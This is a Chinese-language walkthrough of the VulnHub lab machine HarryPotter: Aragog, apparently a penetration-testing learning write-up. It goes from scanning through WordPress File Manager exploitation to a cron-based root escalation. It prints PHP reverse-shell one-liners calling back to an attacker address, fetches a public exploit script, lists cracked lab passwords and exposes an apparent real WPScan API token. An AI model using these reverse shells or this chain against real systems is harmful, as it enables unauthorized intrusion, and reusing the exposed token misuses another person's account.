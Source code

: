 # HarryPotter-Aragog-1.0.2

> 靶机文档：[HarryPotter: Aragog (1.0.2)](https://www.vulnhub.com/entry/harrypotter-aragog-102,688/)
>
> 下载地址：[**Download (Mirror)**](https://download.vulnhub.com/harrypotter/Aragog-1.0.2.ova)

![image-20230909141557109](./imgs/image-20230909141557109.png)

## 方式一

### 信息收集

#### 主机发现

```bash
 sudo arp-scan -l
```



![image-20230909142434034](./imgs/image-20230909142434034.png)

#### 端口扫描

![image-20230909142758976](./imgs/image-20230909142758976.png)

#### 目录扫描

![image-20230909143001315](./imgs/image-20230909143001315.png)

看到这里扫出来目录中，**index.html**，**javascript**, **server-status**,**blog**下的部分目录，并且出现了**wp-login.php**，这也说明了这是一个**wordpress**的cms框架



`index.html`

![image-20230909143452106](./imgs/image-20230909143452106.png)

`blog`

网页没有样式

![image-20230909143611031](./imgs/image-20230909143611031.png)

查看网页源码

![image-20230909145217560](./imgs/image-20230909145217560.png)

做域名ip映射  `/etc/hosts`

域名：wordpress.aragog.hogwarts    IP：自己要访问靶机的机器的IP地址

![image-20230909150646841](./imgs/image-20230909150646841.png)

发现是 WordPress 系统，用 wpscan 扫一下，加上[ api-token](https://wpscan.com/profile) 扫：

#### wpscan工具

> **`WPScan`是一个扫描`WordPress`漏洞的扫描器，可以扫描出`wordpress`的版本，主题，插件，后台用户以及爆破后台用户密码等**

```bash
wpscan --api-token=blsnsog49N5d0UwAIYACcXs3fKbchB7JpbCgNutJRHA --url http://192.168.80.143/blog -e p --plugins-detection aggressive
```



![image-20230909152924966](./imgs/image-20230909152924966.png)

可以 发现该站点的插件中有很多漏洞，而且都是关于file Manager的

### 漏洞利用

#### msf工具

```bash
msf6 > search wordpress file manager
```



![image-20230909152800629](./imgs/image-20230909152800629.png)

```bash
use 1
info
```

查看需要配置的信息

![image-20230909153122178](./imgs/image-20230909153122178.png)

需要配置rhost（目标主机），targeturl（目标网址），这个目标网址会自动跟前面的目标主机拼接，所以我们直接把rhost设置为靶机的ip，targeturl设置成/blog即可，这里因为使用的是反向，所以还需要配置自己的主机ip

![image-20230909153409333](./imgs/image-20230909153409333.png)

在`hagrid98`家目录下得到一串base64格式加密的数据

![image-20230909153659725](./imgs/image-20230909153659725.png)

使用`BurpSuite`的`Decoder`功能解码

![image-20230909154142824](./imgs/image-20230909154142824.png)

![image-20230909154319918](./imgs/image-20230909154319918.png)

#### 数据库权限

找一下数据库的用户名密码，查看数据库中有没有可利用信息

在**/etc/wordpress**里可以打开**config-default.php**。这里记录了MySQL的用户名密码，可以用于登录数据库

![image-20230909154904019](./imgs/image-20230909154904019.png)

登录数据库之前得首先得获取一个tty shell，不然我们在数据库中的命令就看不到回显（可以理解为将**非交互式shell**变成了**交互式shell**），输入下面命令即可拿到tty shell 

> ![image-20230909155308470](./imgs/image-20230909155308470.png)

![image-20230909155207845](./imgs/image-20230909155207845.png)

使用得到用户名`root`，密码`mySecr3tPass`，来连接数据库

![image-20230909155552313](./imgs/image-20230909155552313.png)

wordpress数据库保存的用户名和密码一般都放在**wp_users表**里面的

![image-20230909155648996](./imgs/image-20230909155648996.png)

[在线解密网站](https://www.somd5.com/)

![image-20230909155752228](./imgs/image-20230909155752228.png)

用户名：`hagrid98`，密码：`password123`

#### 用户权限

尝试`SSH远程连接`

![image-20230909160013119](./imgs/image-20230909160013119.png)

#### root提权

使用`sudo `和`suid`查询后发现没有可利用的

![image-20230909160301316](./imgs/image-20230909160301316.png)

然后查找备份文件，查看有没有`.sh`结尾的文件

```bash
find / -name '*.sh'
```

![image-20230909160243232](./imgs/image-20230909160243232.png)

![image-20230909160620277](./imgs/image-20230909160620277.png)

推测应该被写入了计划任务，这里我们尝试建立一个反弹shell的脚本并通过它这个计划任务来执行

> 在tmp文件下创建反弹shell的php脚本并命名为a.php，脚本代码如下

```php
<?php $sock=fsockopen("192.168.80.141 ",6868);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```

![image-20230909164505639](./imgs/image-20230909164505639.png)

**/usr/bin/php**是php的执行文件的目录，这样才能执行php文件

其实也可以直接在`.backup.sh`里面直接写一个反弹shell

---

kali监听`6868`端口

![image-20230909161708723](./imgs/image-20230909161708723.png)

拿到`root`后可以使用`crontab -l`，查看当前用户的计划任务列表

![image-20230909162429837](./imgs/image-20230909162429837.png)

![image-20230909164442869](./imgs/image-20230909164442869.png)

## 方式二

### 信息收集

#### gobuster扫描

```bash
└─$ gobuster dir -u http://192.168.80.143 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```



![image-20230909165253792](./imgs/image-20230909165253792.png)

#### wpscan扫描

```bash
wpscan --api-token=blsnsog49N5d0UwAIYACcXs3fKbchB7JpbCgNutJRHA --url http://192.168.80.143/blog -e p --plugins-detection aggressive
```

![image-20230909165849419](./imgs/image-20230909165849419.png)

### 漏洞利用

#### POC

访问`https://wpscan.com/vulnerability/e528ae38-72f0-49ff-9878-922eff59ace9`

![image-20230909170028124](./imgs/image-20230909170028124.png)

`wget https://ypcs.fi/misc/code/pocs/2020-wp-file-manager-v67.py`到本地

查看脚本的使用方法

![image-20230909170702430](./imgs/image-20230909170702430.png)

[生成反弹 shell](http://shell.20xiaohai.cn/)到`payload.php`文件里

```php
php -r '$sock=fsockopen("192.168.80.141",6868);exec("/bin/sh -i <&3 >&3 2>&3");'
```

![image-20230909171334454](./imgs/image-20230909171334454.png)

运行脚本，得到反弹shell地址

![image-20230909171426970](./imgs/image-20230909171426970.png)

地址中多写了一个`/blog`，删除即可

![image-20230909171908665](./imgs/image-20230909171908665.png)

等一会就反弹到了

![image-20230909172037019](./imgs/image-20230909172037019.png)